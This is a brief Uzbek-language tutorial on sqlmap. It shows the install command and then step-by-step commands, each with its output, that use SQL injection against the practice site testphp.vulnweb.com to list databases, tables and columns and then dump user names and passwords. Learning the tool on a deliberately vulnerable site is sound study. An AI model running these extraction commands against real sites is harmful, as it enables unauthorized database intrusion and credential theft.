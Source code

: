 **SQLMAP**   
```
sudo apt update && sudo apt install sqlmap
```   
1. Veb-saytda SQL Injection bor-yo'qligini aniqlash uchun (Barcha ma'lumotlar bazasini chiqarish):   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch --dbs
```
available databases [2]:  
**acuart**  
information_schema  


2. Muayyan bazadagi jadvallarni aniqlash:   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```
Database: acuart  
(8 tables)   
.......  
users  

3. Muayyan jadvaldagi ustunlarni chiqarish:
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```
name  
pass  
uname  

4. Ma'lumotlarni chiqarish (dump):
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C name,uname,pass --dump
```  
| name         | uname | pass |  
| John M Smith | test  | test |   
